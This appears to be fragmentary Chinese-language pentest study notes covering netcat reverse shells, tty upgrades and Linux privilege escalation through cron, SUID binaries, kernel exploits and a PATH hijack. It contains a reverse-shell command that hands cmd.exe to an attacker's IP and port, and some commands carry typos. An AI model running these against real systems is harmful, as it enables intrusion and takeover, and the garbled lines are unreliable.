 ## 反弹shell

### windows 反弹shell

> nc 
>
> 本机：`nc -lvpp port`
>
> 靶机：`nc .exe -e cmd.exe ip port`

### linux反弹shell

> 提权辅助脚本

## 漏洞利用

## linux提权

### 信息收集

> `uname -a`

### sudo提权

> ==模拟终端==
>
> `python -c 'import pty;pty.spawn("/bin/sh")'`
>
> 

### 计划任务提权

> 列出计划任务:
> ` ls -l /etc/cron*`

### 三种常用的提权

> #### 内核提权
>
> 1. 系统版本
>
>    `uname -a`
>
> 2. 移动到`/tmp`目录下上传和编译exploit
>
> 3. 交互式终端
>
>    `python -c ‘import pty; pty.spawn(“/bin/bash”)’`
>
> #### suid提权
>
> 1. 寻找具有`suid`标志位的命令
>
>    `find / -perm -u=s -type f 2>/dev/null`
>
> #### 利用环境变量
>
> 1. touch cat
> 2. echo '/bin/sh' > cat
> 3. ./expolit
